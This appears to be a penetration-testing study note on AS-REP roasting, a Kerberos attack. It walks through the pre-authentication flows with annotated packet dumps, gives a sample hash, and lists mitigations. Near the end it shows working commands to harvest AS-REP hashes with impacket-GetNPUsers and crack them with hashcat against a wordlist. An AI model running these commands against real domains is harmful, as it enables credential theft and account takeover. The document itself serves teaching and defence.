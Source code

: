 # AS-REP Roasting

AS-REP roasting is an attack against Kerberos that allows password hashes to be retrieved for users that do not require Pre-authentication.

- Some accounts may be configured not to require pre-authentication (e.g., service accounts or old accounts). 

- For these accounts, the KDC will directly respond to an AS-REQ (Authentication Service Request) with an AS-REP message.


## Normal Authentication Flow When PreAuth is Enabled For a User


- **AS-REQ:** Client sends a timestamp encrytped with user's password hash
- **AP-REP:** Authentication server verifies user's identity by decrypting the timestamp, if verified it responds with TGT + Session Key encrypted with client's password hash.

### AS REQ

```
Kerberos AS-REQ
    pvno: 5
    msg-type: krb-as-req (10)
    padata: 1 item
        PA-DATA
            padata-type: PA-ENC-TIMESTAMP (2)
            padata-value (Encrypted): 
                Encryption Type: aes256-cts-hmac-sha1-96
                Encrypted Data: 7a3f8e... (AES-encrypted timestamp)
    req-body
        kdc-options: forwardable, renewable
        cname: bob@DOMAIN.HTB
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        nonce: 12345678
        etype: aes256-cts, aes128-cts, rc4-hmac

```

- padata: (Pre Auth Data) Current TImeStamp Encrypted with User's Password hash
### AS REP

```
Kerberos AS-REP
    pvno: 5
    msg-type: krb-as-rep (11)
    ticket
        tkt-vno: 5
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        enc-part (Encrypted with KDC key): aes256-cts-hmac-sha1-96
            (Decrypted contents: session key, client principal, expiry, etc.)
    enc-part (Encrypted with user's key): aes256-cts-hmac-sha1-96
        ciphertext: a3d1f5... (long hex string)
        (Decrypted contents: session key, nonce, flags, etc.)
```

- ticket: TGT, encrypted with KDC's key (krbtgt account hash)
- enc-part: session key, encrypted with the user’s password hash, (we need this session key when requesting Service Tickets)

## Authentication Flow When PreAuth is Disabled For a User.

- **AS-REQ:** Client sends a username only.
- **AP-REP:** Authentication server responds with TGT + Session Key encrypted with client's password hash.

### AS REQ

```
Kerberos AS-REQ
    pvno: 5
    msg-type: krb-as-req (10)
    req-body
        kdc-options: forwardable, renewable
        cname: bob@DOMAIN.HTB
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        nonce: 12345678
        etype: aes256-cts, aes128-cts, rc4-hmac
```

- No padata field: This is the key indicator that pre-authentication is disabled
- cname: name of the user
### AS REP 

```
Kerberos AS-REP
    pvno: 5
    msg-type: krb-as-rep (11)
    ticket
        tkt-vno: 5
        realm: DOMAIN.HTB
        sname: krbtgt/DOMAIN.HTB
        enc-part (Encrypted with KDC key): aes256-cts-hmac-sha1-96
            (Decrypted contents: session key, client principal, expiry, etc.)
    enc-part (Encrypted with user's key): aes256-cts-hmac-sha1-96
         ciphertext: a3d1f5... (long hex string)
        (Decrypted contents: session key, nonce, flags, etc.)
```

- ticket: TGT, encrypted with KDC's key (krbtgt account hash)
- enc-part: session key, encrypted with the user’s password hash

Now an attacker can perform offline password brute force attack to decrypt this enc-part cipher text and get the user password.

```
$krb5asrep$18$bob@DOMAIN.HTB:a3d1f5...
```

```
impacket-GetNPUsers -dc-ip X.X.X.X doamin.local/ -usersfile users.txt -format john -outputfile hashes
```

![image info](../assets/Pasted%20image%2020250721205936.png)

```
hashcat asrep.hash /usr/share/wordlists/rockyou.txt -a 0 -m 18200  hashes.txt
```

![image info](../assets/Pasted%20image%2020250721210137.png)

### Mitigation

1. **Enforce Pre-Authentication**: Ensure that all user accounts require pre-authentication.
2. **Strong Password Policies**: Implement and enforce strong password policies to make brute-force attacks more difficult.
3. **Monitoring and Alerts**: Monitor for unusual authentication requests and alert on suspicious activity related to AS-REP requests.